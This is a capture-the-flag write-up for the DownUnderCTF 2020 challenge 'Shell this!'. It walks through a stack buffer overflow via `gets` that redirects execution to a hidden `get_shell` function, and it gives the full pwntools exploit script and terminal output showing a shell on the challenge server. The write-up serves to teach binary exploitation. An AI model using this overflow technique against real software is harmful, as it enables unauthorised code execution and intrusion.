Hmmmmm, a `gets` call and a function that doesn't get called which spawns a shell? 🤔🤔
This program is ripe for exploitation! Let's do a buffer overflow to overwrite the return address to go to the `get_shell` function!

```python
# exploit.py
from pwn import *
# 64 bit, NX set

context.terminal = ['gnome-terminal', '--', 'bash', '-c']
context.binary = elf = ELF('./shellthis')

def conn():
    if args.REMOTE:
        return remote("chal.duc.tf", 30002)
    else:
        return process()


r = conn()
if not args.REMOTE and not args.NO_GDB:
    gdb.attach(r)
    pass

# Detecting EIP overrun
# payload = cyclic(1024)
# eip_offset = cyclic_find(0x6161616f)
eip_offset = 56

payload = flat(
    b'A'*eip_offset,
    elf.sym['get_shell']
)

r.recvline()
r.sendline(payload)

print(r.clean())
r.interactive()

r.close()
```

Initially, I detected the padding that would be necessary by sending a [De Brujin sequence (the linked post explains its usefulness for binary exploitation quite well)](https://ironstone.gitbook.io/notes/types/stack/de-bruijn-sequences) and using the attached GDB session to know the value that EIP would have when returning (when it `SEGFAULT`ed due to returning to our payload).

Afterwards we only need to send the padding and then overwrite the return address with the value of the `get_shell` function. Then we get a shell and just need to read `flag.txt`:

```
~/CTF/DownUnderCTF-2020/Pwn/Shell this! py(ctf)
miguel@miguel-xps$ python exploit.py REMOTE
[*] '/home/miguel/CTF/DownUnderCTF-2020/Pwn/Shell this!/shellthis'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to chal.duc.tf on port 30002: Done
b'Please tell me your name: '
[*] Switching to interactive mode
$ ls
flag.txt
shellthis
```